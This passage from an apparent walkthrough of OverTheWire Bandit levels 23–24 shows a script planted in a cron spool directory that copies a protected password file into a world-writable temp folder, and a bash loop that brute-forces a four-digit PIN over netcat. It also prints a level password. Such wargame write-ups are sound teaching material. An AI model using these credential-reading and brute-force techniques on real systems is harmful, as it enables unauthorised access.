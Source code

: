 ```sh
    fi
done
```

```sh
mkdir /tmp/rand
cd /tmp/rand
touch script.sh
```

Create a script in the tmp folder which will be ran by the cron job.

```sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/rand/password
```

The script reads out the password from bandit24 and then puts it inside our tmp file.

We do this because we cannot directly access /etc/bandit_pass/bandit24

```sh
cp script.sh /var/spool/bandit24/foo
chmod 777 /tmp/rand
```

Move our script to the dir where the original script will run and change
permissions on the current dir.

## [Level 24](https://overthewire.org/wargames/bandit/bandit25.html) - Loop with bash

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

```ssh
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

```sh
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

```
nc localhost 30002
```

```
mktemp -d
cd /tmp/tmp.3YQNHtW1Uu
nano brute_force_pin.sh
chmod +x brute_force_pin.sh
```

```
#!/bin/bash

for i in {0000..9999}
do
        echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
```

